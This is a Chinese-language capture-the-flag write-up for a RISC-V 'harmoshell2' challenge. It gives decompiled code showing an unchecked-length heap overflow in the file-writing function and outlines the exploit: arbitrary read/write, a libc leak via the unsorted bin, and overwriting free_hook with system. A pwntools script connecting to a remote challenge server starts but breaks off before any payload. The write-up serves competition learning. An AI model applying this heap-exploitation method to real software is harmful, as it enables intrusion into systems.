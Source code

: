 ```
//echo function
content_buf = get_file_node(lVar1-&gt;file_content);
__nbytes = 0x100;
if (-1 &lt; content_buf) `{`
  __nbytes = *(size_t *)(*(longlong *)(&amp;gp0xfffffffffffffa60 + content_buf * 8) + 0x18);
`}`
content_length = read(0,contentbuf,__nbytes);
write2file(*(undefined8 *)(*(longlong *)(param_1 + 8) + 0x10),contentbuf,(longlong)content_length,
           flag);
return;
```

```
void write2file(void *input_buf,uint length,longlong flag)
`{`
  file_node *file_node;
  longlong lVar1;
  void *content_buf;

  lVar1 = get_file_node();
  if (-1 &lt; lVar1) `{`
    file_node = (file_node *)(&amp;gp0xfffffffffffffa60 + lVar1 * 8);
    content_buf = *(void **)(*(longlong *)file_node-&gt;file_name + 0x10);
    if (flag != 0) `{`
      memcpy((void *)((longlong)content_buf +
                      *(longlong *)(*(longlong *)file_node-&gt;file_name + 0x20)),input_buf,length);
      *(ulonglong *)(*(longlong *)file_node-&gt;file_name + 0x20) =
        (ulonglong)length + *(longlong *)(*(longlong *)file_node-&gt;file_name + 0x20);
      return;
    `}`
    memcpy(content_buf,input_buf,length);
    *(ulonglong *)(*(longlong *)file_node-&gt;file_name + 0x20) = (ulonglong)length;
  `}`
  return;
`}`
```

这里可以看到使用`echo &gt; file`可以对文件可以随意长度的写，没有了`HARMOSHELL`中对长度的检查，因此这里存在堆溢出的漏洞。这里我们可以利用简单的方法，即首先创建多个文件，每个文件的内存范围为`0x30`大小的文件控制结构体和`0x110`大小的存储文件内容的堆块。因此我们可以通过堆溢出控制文件结构体中的`content_buf`。做到任意的内存地址读写。

那么利用思路就很简单了，覆写堆块的`size`释放之后堆块释放到`unsorted bin`中即可以泄漏出`libc`基址，需要注意的是这里地址中包含`00`，因此这里我采用的是`8`次循环读得到`libc`的基址。接下来就很简单了，直接利用内存任意写覆写`free_hook`为`system`。

```
# encoding=utf-8
from pwn import *

file_path = "./harmoshell2"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    # p = process(['./qemu-riscv64', '-L', "libs", '-g', '1234', file_path])
    p = process(['./qemu-riscv64', '-L', "libs", file_path])
    libc = ELF('./libs/lib/libc-2.27.so')
    one_gadget = 0x0

else:
    p = remote('139.159.132.55', 9999)
    libc = ELF('./libs/lib/libc-2.27.so')
    one_gadget = 0x0

```